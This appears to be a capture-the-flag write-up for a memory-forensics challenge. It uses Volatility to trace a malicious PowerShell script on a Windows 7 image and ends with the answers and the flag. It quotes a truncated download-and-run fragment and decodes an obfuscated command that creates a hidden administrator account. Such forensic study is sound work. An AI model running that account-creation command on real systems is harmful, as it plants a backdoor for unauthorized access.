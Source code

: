 Lost in Memory
============

`vol.py -f EMU-OUTPOST.raw imageinfo`

`vol.py -f EMU-OUTPOST.raw --profile=Win7SP1x86_23418 consoles`

![](console.png)

Items worth noting

`powershell.exe Pid: 1136` 

`C:\Users\emu\Downloads\monkey.doc.ps1` 

`iex (New-Object net.we`

`vol.py -f EMU-OUTPOST --profile=Win7SP1x86_23418 pstree`

![](pstree.png)

Items worth noting:

`. 0x8449c528:powershell.exe                          1136   3176     17    432 2024-06-18 10:01:08 UTC+0000`

`.. 0x8452f600:powershell.exe                         2520   1136     11    306 2024-06-18 10:01:35 UTC+0000`

`.. 0x85e1f788:powershell.exe                         3268   1136     11    309 2024-06-18 10:01:34 UTC+0000`

```vol.py -f EMU-OUTPOST --profile=Win7SP1x86_23418 memdump -p 2520 --dump-dir .```

`strings 2520.dmp | grep "iex (New-Object net.we"`

![](strings-grep1.png)

`strings 2520.dmp | grep "powershell "`

![](strings-grep2.png)

Run pieces of the found Powershell script in powershell.

![](powershell.png)

`'n'+'et'+' user admin '+'5'+'up'+'3r-5ecu'+'r3 /a'+'d'+'d;n'+'et '+'localgrou'+'p '+'administra'+'t'+'ors '+'adm'+'i'+'n /a'+'dd’`

Using Cyberchef we can replace the '+' and get the powershell command ran.

![](chef.png)

`'net user admin 5up3r-5ecur3 /add;net localgroup administrators admin /add'`

1: What was the name of the malicious executable? `monkey.doc.ps1`

2: What was the name of the powershell module used? `Invoke-ReflectivePEInjection`

3: What were the names of the two files executed from the malicious executable (In alphabetical order with - in between and no spaces)? `emu.dll-kiwi.dll`

4: What was the password of the new account created through powershell? `5up3r-5ecur3`

`DUCTF{monkey.doc.ps1_invoke-reflectivepeinjection_emu.dll-kiwi.dll_5up3r-5ecur3}`